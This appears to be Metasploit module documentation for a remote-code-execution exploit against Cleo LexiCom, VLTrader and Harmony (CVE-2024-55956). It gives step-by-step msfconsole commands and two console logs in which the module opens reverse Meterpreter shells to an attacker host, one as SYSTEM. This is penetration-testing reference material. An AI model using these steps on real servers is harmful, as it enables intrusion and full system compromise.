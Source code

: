 ## Vulnerable Application
This module exploits an unauthenticated file write vulnerability in Cleo LexiCom, VLTrader, and Harmony
versions 5.8.0.23 and below.

For a full technical analysis, please see our
AttackerKB [Rapid7 Analysis](https://attackerkb.com/topics/geR0H8dgrE/cve-2024-55956/rapid7-analysis).

## Testing
You must install a vulnerable copy of Cleo LexiCom, VLTrader, or Harmony. The vendor install guide for Cleo LexiCom
can be found [here](https://cleo-infoeng.s3.us-east-2.amazonaws.com/PDF/LexiCom/5.8/LexiCom_58_InstallGuide_072222.pdf).
During testing of this module Cleo LexiCom was used. On Windows you will download the `install.exe` file and on Linux
you will download the `install.bin` file. Running the installer to complete the installation. 

By default, the HTTP service will listen on TCP port 5080, so you will need to allow inbound connections to this port
from your firewall.

If testing the default Windows payloads, you should disable Defender.

## Verification Steps

1. Start msfconsole
2. `use exploit/multi/http/cleo_rce_cve_2024_55956`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set LHOST eth0`
5. `set LPORT 4444`
6. `set target 0`
7. `set PAYLOAD java/meterpreter/reverse_tcp`
8. `check`
9. `exploit`

## Scenarios

### Java

```
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > set RHOSTS 192.168.86.50
RHOSTS => 192.168.86.50
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > set LHOST eth0
LHOST => 192.168.86.42
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > set target 0
target => 1
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > show options 

Module options (exploit/multi/http/cleo_rce_cve_2024_55956):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.50    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    5080             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > check
[*] 192.168.86.50:5080 - The target appears to be vulnerable. Cleo LexiCom/5.8.0.0 (Windows Server 2022)
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > exploit 
[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Cleo LexiCom/5.8.0.0 (Windows Server 2022)
[*] Sending stage (58073 bytes) to 192.168.86.50
[+] Deleted temp/iidqizro
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.50:59172) at 2024-12-17 13:40:58 +0000
[!] This exploit may require manual cleanup of 'temp/kagdkplw' on the target

meterpreter > getuid
Server username: WIN-V28QNSO2H05$
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows Server 2022 10.0 (amd64)
Architecture    : x64
System Language : en_IE
Meterpreter     : java/windows
meterpreter > pwd
C:\LexiCom
meterpreter >
```

### Windows Command

```
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > set RHOSTS 192.168.86.50
RHOSTS => 192.168.86.50
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > set LHOST eth0
LHOST => 192.168.86.42
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > set target 1
target => 1
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > set payload cmd/windows/http/x64/meterpreter_reverse_tcp
payload => cmd/windows/http/x64/meterpreter_reverse_tcp
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > show options 

Module options (exploit/multi/http/cleo_rce_cve_2024_55956):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.50    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    5080             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   EXTENSIONS                           no        Comma-separate list of extensions to load
   EXTINIT                              no        Initialization strings for extensions
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      APpIYmSCo        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > check
[*] 192.168.86.50:5080 - The target appears to be vulnerable. Cleo LexiCom/5.8.0.0 (Windows Server 2022)
msf6 exploit(multi/http/cleo_rce_cve_2024_55956) > exploit 
[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Cleo LexiCom/5.8.0.0 (Windows Server 2022)
[+] Deleted temp/hzbcsche
[*] Meterpreter session 2 opened (192.168.86.42:4444 -> 192.168.86.50:59175) at 2024-12-17 13:42:09 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > pwd
C:\LexiCom
meterpreter >
```
